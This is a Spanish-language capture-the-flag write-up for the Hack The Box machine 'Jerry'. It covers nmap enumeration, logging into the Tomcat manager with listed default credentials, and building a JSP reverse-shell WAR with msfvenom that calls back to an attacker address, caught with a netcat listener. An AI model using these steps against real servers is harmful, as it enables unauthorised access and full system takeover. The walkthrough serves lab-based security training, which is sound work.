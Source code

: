 # Jerry {-}

## Introduccion {-}

La maquina del dia se llama Jerry.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/GFED7XNYmXI/0.jpg)](https://www.youtube.com/watch?v=GFED7XNYmXI)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.95
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.95
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p8080 10.10.10.95 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 8080   | http     | Web Fuzzing        |            |


### Analyzando la web {-}


#### Http Enum {-}

```bash
nmap --script http-enub -p8080 10.10.10.95 -oN webScan
```



## Vulnerability Assessment {-}

#### Checkear la web {-}

Vemos la pagina por defecto de Tomcat. Vamos en la url `http://10.10.10.95:8080/manager/html`, Intentamos credenciales por defecto:

- admin:admin
- tomcat:tomcat
- tomcat:s3cret

Ya hemos ganado acceso al panel de manager.
## Vuln exploit & Gaining Access {-}

### War malicioso para tomcat {-}

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o shell.war
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Subimos el war a la web de manager y ya ganamos accesso a la maquina victima. A demas ya estamos como `nt authority\system`
